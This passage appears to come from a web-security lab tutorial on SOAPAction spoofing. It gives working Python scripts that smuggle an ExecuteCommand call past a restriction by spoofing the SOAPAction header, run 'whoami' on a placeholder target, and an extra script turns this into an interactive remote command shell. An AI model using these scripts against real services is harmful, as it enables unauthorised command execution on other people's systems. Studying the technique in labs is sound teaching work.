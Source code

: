 We get an error mentioning _This function is only allowed in internal networks_. We have no access to the internal networks.

Now we can try SOAPAction spoofing attack!

Let us build a new Python script for our SOAPAction spoofing attack (save it as `client_soapaction_spoofing.py`).
```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
- We specify _LoginRequest_ in `<soap:Body>`, so that our request goes through. This operation is allowed from the outside.
- We specify the parameters of _ExecuteCommand_ because we want to have the SOAP service execute a `whoami` command.
- We specify the blocked operation (_ExecuteCommand_) in the SOAPAction header

If the web service determines the operation to be executed based solely on the SOAPAction header, we may bypass the restrictions and have the SOAP service execute a `whoami` command.

Let us execute the new script.
```shell
python3 client_soapaction_spoofing.py
```

Our `whoami` command was executed successfully, bypassing the restrictions through SOAPAction spoofing!
### Extra
If you want to be able to specify multiple commands and see the result each time, use the following Python script (save it as `automate.py`).
```python
import requests

while True:
    cmd = input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

```shell
python3 automate.py
```
## Example 2
Examining the WSDL file, we can also find that there is a SOAPAction called `LoginRequest` with two parameters, `username` and `password`:
```xml
      <s:element name="LoginRequest">
        
        <s:complexType>
          <s:sequence>
            <s:element minOccurs="1" maxOccurs="1" name="username" type="s:string"/>
            <s:element minOccurs="1" maxOccurs="1" name="password" type="s:string"/>
          </s:sequence>
        </s:complexType>
        
```